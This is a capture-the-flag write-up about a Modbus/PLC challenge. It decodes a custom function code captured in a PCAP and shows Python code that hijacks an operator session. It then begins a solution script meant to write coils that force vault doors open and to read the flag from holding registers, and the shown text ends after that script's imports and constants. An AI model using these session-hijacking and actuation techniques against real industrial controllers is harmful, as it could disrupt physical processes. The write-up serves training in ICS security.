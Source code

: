 It appears that the format of the data we send needs to be corrected. We can review again the sample commands from the PCAP to uncover any missing information.

| command byte(s)          | use case                    |
| ------------------------ | --------------------------- |
| 660010086f70657261746f72 | Custom Modbus Function Code |
| 00                       | Session ID                  |
| 10                       | Take reservation command    |
| 08                       | Unkown                      |
| 6f70657261746f72         | operator text               |

There is one byte in the data which we don't know its use for. If we look closely top find a correlation to the rest of the data we can see that the operator text consists of 8 bytes. We can now attempt to takeover the session again by sending our new_operator lenght.

```python
# <SNIP>
code, status, data = send_packet(client, SESSION, 0x10, [len(username)] + username)
SESSION = data[0]
print(f'New session id {SESSION}')
```

Now when running the updated client we have successfully replaced the existing session of the operator program with a new one.

```
python3  client.py

<SNIP>

New session id 25
```

# Solution: 

Now we can combine the updated client and the extra code for the write coils and read registers (flag) operations and make a last attempt to force the vault doors open!

```python
# Tested on: 
# python 3.9.18 
# pymodbus==3.5.4

# README: Once the objective is completed and the doors are fully open 
# you can find the flag located on the Holding Registers of the PLC
# starting on address: FLAG_ADDR_HOLDING_REGISTER = 123

from pymodbus.client import ModbusTcpClient
from pymodbus.pdu import ModbusRequest, ModbusResponse
import struct
import logging
from pymodbus.transaction import ModbusSocketFramer
import time

# Configure logging to display debug messages 
# form pymodbus library to inspect Modbus traffic
#logging.basicConfig()
#logging.getLogger().setLevel(logging.DEBUG)


FLAG_ADDR_HOLDING_REGISTER = 123
FLAG_COUNT = 100
COIL_START = 0
```